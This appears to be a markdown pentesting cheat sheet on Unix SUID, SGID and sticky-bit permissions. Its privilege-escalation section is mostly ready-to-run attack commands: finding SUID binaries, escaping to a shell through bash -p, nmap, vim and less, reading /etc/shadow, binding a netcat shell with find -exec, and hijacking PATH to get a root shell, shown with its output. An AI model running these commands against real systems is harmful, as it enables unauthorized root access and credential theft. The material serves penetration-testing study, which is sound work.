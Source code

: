 # suid (set user id)

> when a command or script with suid bit set is run, its effective uid becomes that of the owner of the file, rather than of the user who is running it

    # set it
    chmod 4555 <file>
    ls -lrt <file>

    # find them
    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;

## privilege escalation
    
    # to retain the setuid privs, you must supply the -p flag
    bash -p -i
    
    nmap --interactive
    !sh

    find pentestlab -exec whoami \;
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;

    vim.tiny /etc/shadow
    ESC
    :set shell=/bin/sh
    :shell

    less /etc/passwd
    !/bin/sh

    # highjacking docker-security dependency
    $ ls -l /usr/local/bin/docker-security
    -rwsr-xr-x 1 root mortal 16720 feb 15 20:00 /usr/local/bin/docker-security
    $ echo "/bin/bash" > /tmp/chmod
    $ chmod 777 /tmp/chmod
    $ export path=/tmp:$path
    $ echo $path
    $ cd /usr/local/bin/
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
    $ ./docker-security
    # id
    uid=0(root) gid=0(root) groups=0(root)

[More binary commands shell invocations](./ishell.md#direct-shell)

# guid (set group id)

> sgid permission is similar to the suid permission, only difference is – when the script or command with sgid on is run, it runs as if it were a member of the same group in which the file is a member

    # set it
    chmod g+s <dir>
    chmod 2555 <file>

    # find them
    find / -perm -g=s -type f 2>/dev/null

– the setgid permission displays as an "s" in the group’s execute field
- if lowercase letter "l" appears in the group’s execute field, it indicates that the setgid bit is on, and the execute bit for the group is off or denied

# sticky bit

> shared directories such as /var/tmp and /tmp because users can create files, read and execute files owned by other users, but are not allowed to remove files owned by other users

    # set it
    chmod +t <dir>
    chmod 1777 <dir>

- T refers to when the execute permissions are off.
- t refers to when the execute permissions are on.
